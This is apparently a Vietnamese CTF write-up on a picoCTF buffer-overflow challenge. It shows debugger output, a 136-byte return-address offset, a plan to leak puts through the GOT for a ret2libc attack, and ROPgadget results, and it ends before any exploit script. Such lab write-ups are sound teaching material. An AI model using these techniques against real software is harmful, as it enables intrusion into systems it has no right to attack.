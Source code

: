 ```python
```

```java
 ► 0x4006fe <do_stuff+38>    call   __isoc99_scanf@plt                      <__isoc99_scanf@plt>
        format: 0x400934 ◂— 0x6325005d0a5e5b25 /* '%[^\n]' */
        vararg: 0x7fffffffdfb0 —▸ 0x7fffffffe040 ◂— 'WeLcOmE To mY EcHo sErVeR!'

```
```js
──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────
 ► 0x400770 <do_stuff+152>         ret                                  <0x4008a0; main+303>
    ↓
   0x4008a0 <main+303>             jmp    main+293                      <main+293>
    ↓
   0x400896 <main+293>             mov    eax, 0
   0x40089b <main+298>             call   do_stuff                      <do_stuff>

   0x4008a0 <main+303>             jmp    main+293                      <main+293>

   0x4008a2                        nop    word ptr cs:[rax + rax]
   0x4008ac                        nop    dword ptr [rax]
   0x4008b0 <__libc_csu_init>      push   r15
   0x4008b2 <__libc_csu_init+2>    push   r14
   0x4008b4 <__libc_csu_init+4>    mov    r15, rdx
   0x4008b7 <__libc_csu_init+7>    push   r13
───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffe038 —▸ 0x4008a0 (main+303) ◂— jmp 0x400896
01:0008│     0x7fffffffe040 ◂— 'WeLcOmE To mY EcHo sErVeR!'
```

```python
>>> str = 0x7fffffffdfb0
>>> ret = 0x7fffffffe038
>>> ret - str
136
```
=> overflow 136 bytes

Cơ mà cần nơi để return về. Nói là ret2libc thì cần leak được địa chỉ trong binary để tính ra libc base.

Do đó ta lợi dùng hàm **puts**

đưa vào đó puts_got để puts in ra địa chỉ thật trên binary *chỗ này mình cũng chưa hiểu tại sao :(( chắc như là 1+1=2*

> #### Ta có thể sử dụng got_other_funcs, như là **setresgid** chẳng hạn

Do đó ta cần gadget **pop rdi ; ret** và **ret**

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/Pico/Here_libc$ ROPgadget --binary vuln | grep "pop rdi ; ret"
0x0000000000400913 : pop rdi ; ret
------------------------------------------------
0x000000000040052e : ret
```
Sau khi đã có được địa chỉ thực của puts => tìm các offset trên libc cần thiết:
